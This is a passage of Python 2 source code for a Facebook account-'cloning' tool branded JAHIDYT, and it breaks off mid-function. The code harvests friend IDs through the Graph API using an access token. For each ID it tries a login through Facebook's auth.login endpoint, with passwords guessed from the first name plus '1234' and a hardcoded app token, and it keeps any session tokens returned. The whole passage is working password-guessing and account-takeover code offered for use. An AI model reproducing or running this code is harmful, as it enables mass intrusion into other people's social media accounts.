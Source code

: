 def pilih_super():
	peak = raw_input("\n\033[1;35mChoose an Option: \033[1;97m")
	if peak =="":
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print "\033[1;95m«-_-_-_-_-_-_-_-_-\033[1;91mJAHIDYT\033[1;95m-_-_-_-_-_-_-_-_-»"
		print logo
		jalan('\033[1;91mGetting Accounts \033[1;93m■■■■■100%')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif peak =="2":
		os.system('clear')
		print "\033[1;95m«-_-_-_-_-_-_-_-_-\033[1;91mJAHIDYT\033[1;95m-_-_-_-_-_-_-_-_-»"
		print logo
		idt = raw_input("\033[1;96m[*] \033[1;96mEnter ID\033[1;93m: \033[1;97m")
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;93mName\033[1;93m:\033[1;97m "+op["name"]
		except KeyError:
			print"\x1b[1;91mID Not Found!"
			raw_input("\n\033[1;96m[\033[1;97mBack\033[1;96m]")
			super()
		print"\033[1;91mGetting Accounts\033[1;93m■■■■■100%"
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif peak =="0":
		menu()
	else:
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	
	print "\033[1;93mTotal Accounts\033[1;93m: \033[1;97m"+str(len(id))
	jalan('\033[1;93mWait\033[1;97m...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;93m•Cloning Has Been Started•\033[1;93m"+o),;sys.stdout.flush();time.sleep(0.05)
	print "\n\033[1;92mNOTE:\x1b[1;93m [If You Want to Stop Process Press CTRL+Z]"
	print "\033[1;95m«-_-_-_-_-_-_-_-_-\033[1;91mJAHIDYT\033[1;95m-_-_-_-_-_-_-_-_-»"
 	
			
	def main(arg):
		global oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass #Dev:love_hacker
		try:													
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)												
			b = json.loads(a.text)												
			pass1 = b['first_name'] + '1234'												
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			q = json.load(data)												
			if 'access_token' in q:
				x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				z = json.loads(x.text)